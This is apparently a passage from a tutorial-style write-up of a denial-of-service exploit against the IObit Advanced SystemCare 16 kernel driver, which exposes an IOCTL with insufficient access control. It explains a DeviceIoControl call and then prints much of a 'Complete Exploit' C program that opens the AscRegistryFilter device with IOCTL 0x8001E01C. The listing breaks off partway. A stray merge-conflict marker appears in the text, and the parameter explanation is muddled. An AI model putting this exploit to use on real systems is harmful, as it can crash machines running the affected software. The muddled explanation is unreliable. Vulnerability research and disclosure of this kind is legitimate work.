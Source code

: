 
This section is where the DeviceIoControl function is called to interact with a device driver. The parameters provided are:

```c++
if (DeviceIoControl(hDevice, IOCTL, (LPVOID)0, 0x3, NULL, 0, &byteRetn, NULL)) {
    fprintf(stdout, "[+] SuccessFully Called IOCTL Using DeviceIoControl %p \n", IOCTL);
}
else {
    fprintf(stderr, "[-] Error Calling IOCTL Using DeviceIoControl\n");
}
CloseHandle(hDevice);

return 0;
```

<<<<<<< HEAD
- hDevice: A handle to the device. It appears to be defined somewhere else in the code.
- IOCTL: The IOCTL code defined earlier.
- (LPVOID)0: This seems to be a pointer to input data (buffer), but in this case, it's set to NULL.
- 0x3: The size of the input buffer, which is 3 bytes.
NULL: The output buffer, set to NULL here.
- 0: The size of the output buffer.
- &byteRetn: A pointer to the byteRetn variable, where the number of bytes returned by the function will be stored.
- NULL: This parameter is used for overlapped operations, and it's set to NULL here.
- if DeviceIoControl call succeeds or fails, a message is printed to the console
- `CloseHandle(hDevice);` This line closes the handle to the device, releasing any resources associated with it.
- `return 0;` This line returns an exit code of 0, indicating successful execution.

if you want's learn more about these functions then i would recommened you checking [Windows API Documentation](https://learn.microsoft.com/en-us/windows/win32/api)


now let's compile and run our exploit

#### Complete Exploit
```c++
// Exploit.c
#include "Windows.h"
#include <Windows.h>
#include <stdio.h>
#include "Header.h"


int main(void)
{
	printf("[+] Exploit Title: IOBIT Advanced System Care 16.0 DOS Exploit\n");
	printf("[+] Vulnerability Title: CWE-782 - Exposed IOCTL with Insufficient Access Control\n");
	printf("[+] Exploit Author: RashidKhan Pathan (iHexCoder)\n");
	printf("[+] Version: 16.1.0.106\n");
	printf("[+] Tested On: Windows 10 Pro x86/x64 Bit 1607 (OS Build 14393.2189), 20H2\n");
	
  printf("[+] Calling CreateFileA to Obtain Driver Handle\n");
	HANDLE hDevice = CreateFileA("\\\\.\\AscRegistryFilter", GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);

	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("[-] Error To Get Driver Handle\n");
	}
	printf("[+] SuccessFully Obtained Device Driver Handle %p (%x) \n", hDevice);


	DWORD byteRetn;

	DWORD IOCTL = 0x8001E01C;
```